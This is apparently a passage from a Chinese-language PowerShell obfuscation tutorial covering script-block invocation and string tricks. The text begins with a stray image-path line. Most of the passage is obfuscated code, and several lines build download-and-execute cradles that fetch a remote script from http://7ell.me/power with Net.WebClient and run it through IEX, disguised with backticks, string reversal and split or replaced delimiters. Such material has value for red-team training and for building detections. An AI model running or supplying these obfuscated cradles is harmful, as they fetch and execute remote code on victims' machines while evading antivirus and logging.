**2.3 脚本块**

使用脚本块 



```
invoke-command`{`xxxx`}`   ICM`{`xxxx`}`   `{`xxxx`}`.invoke()    &amp;`{`xxxx`}`    .`{`xxxx`}`
$ExecutionContext.InvokeCommand.NewScriptBlock("xxxxx")
$`{`ExecuTioNCoNTexT`}`."INVokeCommANd"."NewScRipTBlock"("expression")
$ExecutionContext."`I`N`V`o`k`e`C`o`m`m`A`N`d"."`N`e`w`S`c`R`i`p`T`B`l`o`c`k"("expression") 
$`{``E`x`e`c`u`T`i`o`N`C`o`N`T`e`x`T`}`."`I`N`V`o`k`e`C`o`m`m`A`N`d"."`N`e`w`S`c`R`i`p`T`B`l`o`c`k"("expression") 
$a = $`{``E`x`e`c`u`T`i`o`N`C`o`N`T`e`x`T`}`; $b = $a."`I`N`V`o`k`e`C`o`m`m`A`N`d";$b."`N`e`w`S`c`R`i`p`T`B`l`o`c`k"("ex"+"pres"+"sion")
```



Scriptblock类方法,[Scriptblock]相当于[Type]("Scriptblock")

```
[Scriptblock]::Create("expression")
([Type]"Scriptblock")::create('expression')
[Scriptblock]::("Create").Invoke("expression")
([Type]("Scriptblock"))::("Create").Invoke("expression")
[Scriptblock]::("`C`R`e"+"`A`T`e").Invoke("expression") 
([Type]("Scr"+"ipt"+"block"))::("`C`R`e"+"`A`T`e").Invoke("ex"+"pres"+"sion")
```

可以构造出下面的式子混淆<br>

```
.($`{``E`x`e`c`u`T`i`o`N`C`o`N`T`e`x`T`}`."`I`N`V`o`k`e`C`o`m`m`A`N`d")."`N`e`w`S`c`R`i`p`T`B`l`o`c`k"((&amp; (`G`C`M *w-O*)"`N`e`T`.`W`e`B`C`l`i`e`N`T")."`D`o`w`N`l`o`A`d`S`T`R`i`N`g"('h'+'ttp://7ell.me/power'))
```

**2.4 字符串处理**

反转



```
$reverseCmd= ")'rewop/em.lle7//:ptth'(gnirtSdaolnwoD.)tneilCbeW.teN tcejbO-weN(";
1. IEX ($reverseCmd[-1..-($reverseCmd.Length)] -Join '') | IEX
2. $reverseCmdCharArray= $reverseCmd.ToCharArray(); [Array]::Reverse($reverseCmdCharArray); IEX ($reverseCmdCharArray-Join '') | IEX
3. IEX (-Join[RegEx]::Matches($reverseCmd,'.','RightToLeft')) | IEX
```

分割截断 or 替换字符



```
$cmdWithDelim= "(New-Object Net.We~~bClient).Downlo~~adString('http://7ell.me/power')";
1. IEX ($cmdWithDelim.Split("~~") -Join '') | IEX
2. IEX $cmdWithDelim.Replace("~~","") | IEX
3. IEX ($cmdWithDelim-Replace "~~","") | IEX
```
